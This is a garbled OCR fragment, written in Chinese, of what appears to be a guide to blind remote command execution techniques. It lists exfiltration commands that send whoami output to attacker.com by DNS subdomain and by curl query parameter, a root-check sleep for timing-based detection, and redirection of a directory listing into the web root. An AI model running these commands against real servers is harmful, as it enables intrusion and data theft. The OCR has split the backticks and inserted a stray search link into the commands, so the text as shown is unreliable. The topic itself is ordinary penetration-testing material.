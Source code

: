 •**DNS 请求：**  
 让目标服务器发起 DNS 查询到攻击者控制的域名，域名中包含命令执行的结果。  
  
•
```
ping -c 1 \
```

  
whoami`  
https://www.google.com/search?q=.attacker.com`[1]  
(将
```
whoami\
```

  
 的结果作为子域名)  
  
•**HTTP/HTTPS 请求：**  
 让目标服务器发起 HTTP/HTTPS 请求到攻击者控制的服务器，并将命令执行结果通过请求参数或 Body 发送回去。  
•
```
curl http://attacker.com/?result=\
```

  
whoami``  
  
•**其他协议：**  
 FTP, SMTP 等。  
  
  
•**延时注入 (Time-based Blind RCE)：**  
 根据命令执行的时间延迟来判断命令是否成功执行。  
•
```
sleep 5
```

  
 或 
```
ping -c 5 127.0.0.1
```

  
•  
结合条件语句：
```
if [ &#34;$(id -u)&#34; -eq 0 ]; then sleep 5; fi
```

  
 (如果用户是 root 则延迟 5 秒)  
  
•**写入文件：**  
 将命令执行结果写入服务器上的某个文件，然后通过 Web 访问该文件。  
•
```
ls -al / > /var/www/html/result.txt
```
